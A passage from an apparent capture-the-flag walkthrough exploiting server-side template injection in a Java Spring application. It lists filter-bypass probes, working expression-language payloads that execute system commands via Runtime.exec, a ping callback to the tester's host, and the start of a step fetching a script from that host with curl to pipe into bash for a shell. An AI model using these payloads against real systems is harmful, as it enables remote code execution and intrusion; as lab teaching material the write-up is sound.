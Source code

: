 ![](/img/image-20221121160306857.png)

The first and last will trigger the banned list, but I can try the
others. For example `*{7*7}` works:

![](/img/image-20221121160417155.png)

`@{7*7}` return the same. `#{7*7}` also works, returning a bit more
junk:

![](/img/image-20221121160444324.png)

#### RCE POC

The payload from the article above is
`${T(java.lang.Runtime).getRuntime().exec('calc')}`. I'll change the
leading `$` to `*` and instead of running `calc`, try `id`:

![](/img/image-20221121160624067.png)

It looks like the command executed, but I don't get a response. I can
try to `ping` my host with
`*{T(java.lang.Runtime).getRuntime().exec('ping -c 1 10.10.14.6')}`, and
it works:



    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    21:07:24.116693 IP 10.10.11.170 > 10.10.14.6: ICMP echo request, id 2, seq 1, length 64
    21:07:24.116743 IP 10.10.14.6 > 10.10.11.170: ICMP echo reply, id 2, seq 1, length 64



Alternatively, there are payloads that return the result, such as the
one on the [HackTricks SSTI
page](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#spring-framework-java):



    *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}



Pasting that into the search box verbatim shows the output of `id`:

![](/img/image-20221121160855128.png)

### Shell

#### curl POC

Given the complication of this payload, I'll use `curl` to read a file
from my VM and if that works, try to pipe it into `bash`. I'll go into
Burp proxy and find the POC `id` request above. I'll send that request
to repeater, and change that `id` to `curl 10.10.14.6/shell`. With a
`python` web server running, I'll submit the request, and there's a
request at my webserver:
